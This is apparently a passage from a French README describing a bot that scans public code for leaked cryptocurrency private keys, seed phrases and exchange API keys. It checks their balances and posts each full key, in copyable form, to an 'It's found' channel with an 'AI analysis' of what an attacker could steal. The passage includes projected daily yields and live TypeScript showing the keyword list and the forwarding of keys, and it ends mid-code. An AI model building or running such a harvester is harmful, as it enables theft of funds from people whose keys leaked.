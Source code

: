 ## 🤖 **BONUS : ANALYSE IA**

En plus, chaque clé reçoit une **analyse IA complète** :

```
⚠️ ANALYSE IA - DANGER

Cette clé privée Ethereum permet un contrôle 
total sur le wallet. Un attaquant peut voler 
tous les tokens ERC-20, NFTs, et ETH sans 
limite. Tous les assets du compte sont en 
danger immédiat.

🔗 [Voir le repo](...)
```

---

## 📊 **STATISTIQUES ATTENDUES**

### Avec Scans Toutes les 2 Minutes

```
Clés crypto détectées : 200-400/jour
Messages "It's found" : 600-1,200/jour
(3 messages par clé : notification + clé + IA)

Répartition estimée:
- Private Keys  : 40%
- Seed Phrases  : 20%
- Exchange APIs : 30%
- Autres        : 10%
```

---

## 🎯 **CODE ACTIF**

Voici le code qui tourne **en ce moment même** :

```typescript
// Détection automatique
const isCryptoPrivateKey = [
  'private_key', 'wallet_key', 'secret_key',
  'eth_private_key', 'ethereum_private_key',
  'bitcoin_private_key', 'btc_private_key',
  'solana_private_key', 'sol_private_key',
  'mnemonic', 'seed_phrase', 'recovery_phrase',
  'binance_api_key', 'binance_secret',
  'coinbase_api', 'kraken_api',
].some(keyword => pattern.pattern_type.toLowerCase().includes(keyword));

// Envoi automatique au canal "It's found"
if (balanceInfo.hasBalance || isCryptoPrivateKey) {
  // Détection blockchain
  let blockchain = '⟠ Ethereum'; // ou ₿ Bitcoin, ◎ Solana, etc.
  
  // Message avec clé copiable
  const fundedMsg = `
🔑 CLÉ PRIVÉE CRYPTO

⛓️ ${blockchain}

🔑 CLÉ:
\`${fullKey}\`
```